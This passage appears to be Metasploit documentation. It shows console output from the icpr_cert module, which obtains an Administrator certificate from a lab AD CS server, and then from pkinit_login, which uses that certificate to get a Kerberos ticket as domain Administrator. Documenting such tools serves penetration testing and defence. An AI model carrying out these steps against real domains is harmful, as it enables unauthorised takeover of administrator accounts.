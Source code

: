 ```
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Finally we can use the `pkinit_login` module to log in to the domain as `Administrator@daforest.com` using the new PFX file:

```
msf6 auxiliary(admin/dcerpc/icpr_cert) > use pkinit_login

Matching Modules
================

   #  Name                                   Disclosure Date  Rank    Check  Description
   -  ----                                   ---------------  ----    -----  -----------
   0  auxiliary/admin/kerberos/pkinit_login                   normal  No     Kerberos Authentication Check Scanner


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/kerberos/pkinit_login

[*] Using auxiliary/admin/kerberos/pkinit_login
msf6 auxiliary(admin/kerberos/pkinit_login) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/kerberos/pkinit_login) > set
set ACTION             set LogLevel           set PromptTimeFormat   set Timeout
set CERT_FILE          set MeterpreterPrompt  set RHOSTS             set TimestampOutput
set CERT_PASS          set MinimumRank        set RPORT              set USERNAME
set ConsoleLogging     set Prompt             set SessionLogging     set VERBOSE
set DOMAIN             set PromptChar         set SessionTlvLogging  set WORKSPACE
msf6 auxiliary(admin/kerberos/pkinit_login) > set CERT_FILE /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx
CERT_FILE => /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx
msf6 auxiliary(admin/kerberos/pkinit_login) > run
[*] Running module against 172.30.239.85

[*] Attempting PKINIT login for Administrator@daforest.com
[+] Successfully authenticated with certificate
[*] 172.30.239.85:88 - TGT MIT Credential Cache ticket saved to /home/gwillcox/.msf4/loot/20221216155910_default_172.30.239.85_mit.kerberos.cca_300840.bin
```